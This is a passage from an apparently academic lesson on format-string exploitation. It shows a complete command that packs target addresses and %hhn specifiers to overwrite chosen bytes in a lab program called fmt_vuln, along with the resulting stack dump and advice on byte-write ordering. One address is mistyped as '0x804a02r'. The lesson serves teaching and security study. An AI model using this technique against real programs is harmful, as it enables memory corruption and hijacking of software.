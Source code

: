 Now we have what we need to completely aligned format string to use in
our exploit by writing bytes to the right place.

Writing Bytes
-------------

With a properly aligned format, let's start by writing the bytes we want
to a locale that we can see clearly the bytes we are writing. The sample
code makes this easy, we'll write to the test value at 0x804a02r. It's
just a matter of putting that address into our format string and
inserting some hhn's for writing.

``` {.example}
user@si485H-base:demo$ ./fmt_vuln $(printf '\x27\xa0\x04\x08')$(printf '\x26\xa0\x04\x08')$(printf '\x25\xa0\x04\x08')$(printf '\x24\xa0\x04\x08')..%1\$008x.%121\$hhn.%1\$008x.%122\$hhn.%1\$008x.%123\$hhn.%1\$008x.%124\$hhn
Right: '&%$..%1$008x.%121$hhn.%1$008x.%122$hhn.%1$008x.%123$hhn.%1$008x.%124$hhn

Wrong: '&%$..bffff854..bffff854..bffff854..bffff854.

[*] test_val @ 0x804a024 = 0x1b252f39
--- STACK main ---
0xbffff694 <ebp+0xc>: bffff724
0xbffff690 <ebp+0x8>: 00000002
0xbffff68c <ebp+0x4>: b7e33a83
0xbffff688 <ebp>: 00000000
0xbffff684 <ebp-0x4>: 00000000
0xbffff680 <ebp-0x8>: 080485e0
0xbffff67c <ebp-0xc>: b7fc4000
0xbffff678 <ebp-0x10>: 1b252f39
0xbffff674 <ebp-0x14>: 00000002
0xbffff670 <ebp-0x18>: 080486f5
0xbffff66c <ebp-0x1c>: 080485d3
0xbffff668 <ebp-0x20>: bffff688
```

Notice, that by planning, we are perfectly aligned because 00x is 3
characters long and so is hhn.

Also notice, that we are writing the bytes from **most significant** to
\* least significant\*. This is important because as we build up our
format, if we have to change the value we bytes earlier, that changes
the value of bytes later because it increases the length of the format.
However, consider that when writing addresses, it is the least
significant portion of the address space that will change more than the
most significant portion. By writing the values from most to least, this
means that the portion of the address which will change the least will
not be affected by the portion that will change the most. For example,
if we are writing to address 0xbffff982, but that changes to 0xbffff945,
we don't want to have to change the format writing of 0xbffff9 because
the 45 changed to 82. (BELIEVE ME ON THIS, I had to rework this lesson
multiple times to fix these problems. Write your bytes most-to-least
significant!)
